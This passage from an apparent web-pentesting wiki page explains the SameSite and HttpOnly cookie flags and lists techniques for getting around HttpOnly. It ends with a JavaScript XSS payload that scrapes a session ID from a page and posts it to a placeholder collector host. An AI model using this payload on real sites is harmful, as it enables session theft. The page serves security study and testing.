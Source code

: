       | NotSet\*, None        |
| AJAX             | $.get("...")                       | NotSet\*, None        |
| Image            | \![[...]]                   | NetSet\*, None        |

Table from [Invicti](https://www.netsparker.com/blog/web-security/same-site-cookie-attribute-prevent-cross-site-request-forgery/) and slightly modified.\
A cookie with _**SameSite**_ attribute will **mitigate CSRF attacks** where a logged session is needed.

**\*Notice that from Chrome80 (feb/2019) the default behaviour of a cookie without a cookie samesite** **attribute will be lax** ([https://www.troyhunt.com/promiscuous-cookies-and-their-impending-death-via-the-samesite-policy/](https://www.troyhunt.com/promiscuous-cookies-and-their-impending-death-via-the-samesite-policy/)).\
Notice that temporary, after applying this change, the **cookies without a SameSite** **policy** in Chrome will be **treated as None** during the **first 2 minutes and then as Lax for top-level cross-site POST request.**

## Cookies Flags

### HttpOnly

This avoids the **client** to access the cookie (Via **Javascript** for example: `document.cookie`)

#### **Bypasses**

- If the page is **sending the cookies as the response** of a requests (for example in a **PHPinfo** page), it's possible to abuse the XSS to send a request to this page and **steal the cookies** from the response (check an example in [https://blog.hackcommander.com/posts/2022/11/12/bypass-httponly-via-php-info-page/](https://blog.hackcommander.com/posts/2022/11/12/bypass-httponly-via-php-info-page/)).
- This could be Bypassed with **TRACE** **HTTP** requests as the response from the server (if this HTTP method is available) will reflect the cookies sent. This technique is called **Cross-Site Tracking**.
  - This technique is avoided by **modern browsers by not permitting sending a TRACE** request from JS. However, some bypasses to this have been found in specific software like sending `\r\nTRACE` instead of `TRACE` to IE6.0 SP2.
- Another way is the exploitation of zero/day vulnerabilities of the browsers.
- It's possible to **overwrite HttpOnly cookies** by performing a Cookie Jar overflow attack:

[[cookie-jar-overflow.md]]

- It's possible to use [**Cookie Smuggling**](#cookie-smuggling) attack to exfiltrate these cookies
- If any server-side endpoint echoes the raw session ID in the HTTP response (e.g., inside HTML comments or a debug block), you can bypass HttpOnly by using an XSS gadget to fetch that endpoint, regex the secret, and exfiltrate it. Example XSS payload pattern:

```js
// Extract content between <!-- startscrmprint --> ... <!-- stopscrmprint -->
const re = /<!-- startscrmprint -->([\s\S]*?)<!-- stopscrmprint -->/;
fetch('/index.php?module=Touch&action=ws')
  .then(r => r.text())
  .then(t => { const m = re.exec(t); if (m) fetch('https://collab/leak', {method:'POST', body: JSON.stringify({leak: btoa(m[1])})}); });
```
